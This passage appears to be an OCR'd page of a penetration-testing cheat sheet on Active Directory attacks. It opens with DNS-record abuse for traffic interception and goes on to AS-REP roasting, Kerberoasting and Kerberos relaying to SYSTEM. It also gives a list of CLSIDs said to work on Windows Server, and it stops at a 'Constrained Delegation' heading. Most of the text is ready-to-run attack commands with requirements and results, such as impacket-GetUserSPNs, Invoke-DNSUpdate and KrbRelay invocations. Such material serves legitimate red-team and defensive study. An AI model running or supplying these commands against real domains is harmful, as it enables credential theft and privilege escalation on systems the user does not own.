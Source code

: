 Requirements: Permission to update DNS (e.g. member of DNSAdmins)
Result: Traffic interception
Tools: Powermad
# https://github.com/Kevin-Robertson/Powermad
$user = '<user>'
$pass = ConvertTo-SecureString -AsPlainText '<pass>' -Force
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$pass
invoke-dnsupdate -credential $cred -dnsname <dns entry> -dnsdata <lhost>

Asreproast

Requirements: Name of a user that has “does not require preauthentication” set
Result: Potentially crackable hashes of a domain users
Tools: impacket,Rubeus
impacket-GetNPUsers example.com/ -usersfile users.txt

Kerberoast

Requirements: Low privileged domain user credentials (pth possible)
Result: Potentially crackable hashes of service accounts
Tools: Impacket, Rubeus
impacket-GetUserSPNs -request -dc-ip <ip> example.com/username

Kerberos Relaying

Requirements: Shell on a domain machine with a low privileged domain user account
Result: SYSTEM access on that machine
Tools: KrbRelayUp, KrbRelay
.\relay.exe relay -Domain example.com -CreateNewComputerAccount -ComputerName abc$ -ComputerPassword Start123! -cls <CLS>
.\relay.exe spawn -m rbcd -d example.com -dc dc.example.com -cn abc$ -cp Start123! -sc "<path>"

CLSIDs (confirmed working on Server 2019/2022 with ADCS installed):

    c980e4c2-c178-4572-935d-a8a429884806
    90f18417-f0f1-484e-9d3c-59dceee5dbd8
    03ca98d6-ff5d-49b8-abc6-03dd84127020
    d99e6e73-fc88-11d0-b498-00a0c90312f3 (certsrv.exe)
    42cbfaa7-a4a7-47bb-b422-bd10e9d02700
    000c101c-0000-0000-c000-000000000046
    1b48339c-d15e-45f3-ad55-a851cb66be6b
    49e6370b-ab71-40ab-92f4-b009593e4518
    50d185b9-fff3-4656-92c7-e4018da4361d
    3c6859ce-230b-48a4-be6c-932c0c202048 (trusted installer service)

Find a CLSID for a specific OS (as admin on a comparable machine to your target):
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel

Constrained Delegation
